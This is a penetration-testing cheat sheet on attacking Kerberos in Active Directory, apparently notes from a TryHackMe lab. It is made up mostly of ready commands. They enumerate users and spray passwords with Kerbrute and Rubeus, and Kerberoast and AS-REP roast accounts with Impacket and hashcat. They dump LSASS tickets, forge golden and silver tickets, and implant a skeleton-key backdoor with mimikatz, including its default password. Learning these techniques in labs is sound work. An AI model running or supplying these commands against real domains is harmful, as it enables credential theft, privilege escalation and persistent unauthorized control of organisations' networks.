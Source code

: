 # kerberos 101

## Kerberos Authentication

![](../.gitbook/assets/kerberos-auth.png)

### Enumerating Users using [Kerbrute](https://github.com/ropnop/kerbrute/releases)

```bash
./kerbrute -dc DC_IP -d DOMAIN USER.txt -t 50
```

### Harvesting TGTs using [Rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

```bash
Rubeus.exe harvest /interval:30

# password spray 
Rubeus.exe brute /password:Password1 /noticket
```

### kerberoasting

Allows user to request service ticket (ST) for any service w/ registered SPN (service princical name) then use the ST to
crack service password.

* [Bloodhound](https://github.com/BloodHoundAD/BloodHound/releases)
* [Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/credentials/Invoke-Kerberoast.ps1)
* [kekeo](https://github.com/gentilkiwi/kekeo)

```bash
# using Rubeus.exe
Rubeus.exe kerberoast

# dump the Kerberos hash for all kerberoastable accounts
impacket-GetUserSPNs DOMAIN.com/USER:'PASS' -dc-ip DC_IP -request
hashcat -m 13100
```

* If the service account is domain admin > Golden/Silver ticket > dumping the NTDS.dit.
* If the service account is not domain admin > log into system with creds > pivot/escalate > password spray other
  service and domain admin accounts

### AS-REP Roasting | (only for users with Kerberos pre-authentication disabled)

* Dumps the krbasrep5 hashes of user accounts
* If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an
  encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who
  they say that they are.
* This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the
  specified user account.

```bash
# using Rubeus.exe
Rubeus.exe asreproast
# add $23 after $krb5asrep$
# hashcat -m 18200

# Impacket's GetNPUsers.py
# Enumerate the users > user.txt
GetNPUsers.py DOMAIN/ -usersfile user.txt -format hashcat -outputfile hash.asreproast
# hashcat -m 18200

secretsdump.py USER@DOMAIN-IP
```

### Pass-the-ticket using mimikatz

* Can be used for dumping user credentials inside an AD network
* Can dump the TGT from the LSASS memory (which stores Kerberos ticket as the gatekeeper and accept or reject the
  credentials provided)
* Gives a .kirbi ticket - can be used to get domain admin
* Allows to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket

```bash
# exports all .kirbi to current directory
sekurlsa::tickets /export

# find some admin .kirbi from krbtgt
kerberos::ptt TICKET

# to check if ticket is working
> klist
```

### Golden / Silver ticket attack using mimikatz

* Silver ticket => more stealth and discreet; only for target service
* Golden ticket => any kerberos service

NOTE:

* **KRBTGT:** service account in KDC; issues all TGTs. If impersonate this account and create a golden ticket we have
  ability to create a service ticket for any service
* **TGT:** ticket to a service account issued by the KDC and can only access that service.

#### Golden Ticket

```bash
# dump hash and SID
lsadump::lsa /inject /name: krbtgt

# create ticket golden
kerberos::golden /user:Administrator /domain:DOMAIN /sid:SID /krbtgt:KRBTGT_NTLM_HASH /id:500

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

#### Silver Ticket

```bash
# dump
lsadump::lsa /inject /name: [<domain-admin-account> | <service-account>]

# create ticket silver
kerberos::golden /user:<USER> /domain:DOMAINM /sid:SID /krbtgt:SERVICE_NTLM_hash /id:1103

# open a new elevated command prompt with the given ticket in mimikatz.
misc::cmd
```

### Kerberos backdoor using mimikatz

* Works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps.
* A skeleton key only works using Kerberos RC4 encryption.
* The default hash skeleton key is `60BA4FCADC466C7A033C178194C03DF6` (password:`mimikatz`)

```bash
misc::skeleton

# done, now accessing admin share
> net use C:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz
> dir \\Desktop-1\c$ /user:Machine1 mimikatz
```

## References

* [TryHackMe:attackingkerberos](https://tryhackme.com/room/attackingkerberos)
* [Kerberos Authentication Image](https://www.manageengine.com/products/active-directory-audit/kb/windows-security-log-event-id-4768.html)